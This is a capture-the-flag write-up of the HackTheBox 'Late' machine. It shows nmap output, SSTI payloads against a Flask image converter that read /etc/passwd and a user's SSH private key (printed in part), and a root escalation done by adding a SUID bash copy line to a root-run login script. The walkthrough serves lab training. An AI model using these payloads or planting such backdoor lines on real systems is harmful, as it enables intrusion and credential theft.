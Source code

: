 ```yaml
---
title: "HackTheBox - Late"
author: Nasrallah
description: ""
date: 2023-04-27 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, ssti, cronjob]
img_path: /assets/img/hackthebox/machines/late
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Late](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). We find an image converter vulnerable to ssti so we exploit that to read private ssh key or even execute commands. After that we find a shell file that runs by root every ssh login, so we  modify the file to get root access.

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 2 open ports, 22 running ssh and 80 is a nginx http web server.

### Web

Let's check the web page.

![](1.png)

It's a photo editing web site, scrolling to to bottom we find a link

![](2.png)

The link goes to `images.late.htb`, let's add that to `/etc/hosts` file and go there.

![](3.png)

Here we can convert an image to text.

I uploaded to screen shot above and got a text file called `results.txt` with the following:

```text
<p>Convert image to textunes

If you want to turn an image into a text document, you came to the right place.

Convert your image now!

Choose file Browse

</p>           
```

Since this converter uses `Flask`, let's see if it's vulnerable to SSTI.

We upload an image that has this text `\{\{7*7\}\}`, and if we get back 49 in the text file we can confirm the web site is vulnerable.

![](4.png)

```terminal
$ cat results.txt
<p>49
</p>
```

We got 49, the web site is vulnerable.

## **Foothold**

Let's read the `/etc/passwd/` file with this payload:

```python
\{\{ get\_flashed\_messages.\_\_globals\_\_.\_\_builtins\_\_.open("/etc/passwd").read() \}\}.
```

![](5.png)

```terminal
$ cat results.txt                                                                                                                                        
<p>root:x:0:0:root:/root:/bin/bash                                                                                                                            
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                                               
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                                                          
[...]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash     <------------
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
[...]

</p>                                                                                           
```

We found a user called `svc_acc`, let's see if we can find an ssh private key in the user's .ssh directory using this payload:

```python
\{\{ get\_flashed\_messages.\_\_globals\_\_.\_\_builtins\_\_.open("/home/svc_acc/.ssh/id_rsa").read() \}\}
```

![](6.png)

```terminal
$ cat results.txt                    
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
[...]
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>                                                                     
```

Great! We got it, now let's ssh to the box.

```terminal
$ ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
svc_acc@late:~$ 
```

## **Privilege Escalation**

Now we run `linpeas`

![](7.png)

We see that `/usr/local/sbin` directory is writable by us and there is a shell file there, let's check it out.

```terminal
svc_acc@late:/usr/local/sbin$ ls -la
total 12
drwxr-xr-x  2 svc_acc svc_acc 4096 May  4 11:50 .
drwxr-xr-x 10 root    root    4096 Aug  6  2020 ..
-rwxr-xr-x  1 svc_acc svc_acc  433 May  4 11:50 ssh-alert.sh
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The first thing we notice is that we own the directory and the file. The second thing is the file has been modified in the past minute.

The shell file sends an email to root every time there is an ssh login.

To see what's happening, i'm gonna run `pspy64` and go to another window and make an ssh login.

![](8.png)

As we can see the shell file got executed when we logged in and after a little bit another cronjob run and changed to ownership of the file to `svc_acc`.

So let's add the following piece of code to `ssh-alert.sh` that's going to make a copy of /bin/bash and give it suid bit.

```terminal
cp /bin/bash /tmp/.bash && chmod +s /tmp/.bash
```

![](9.png)

The suid bash been created successfully and we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).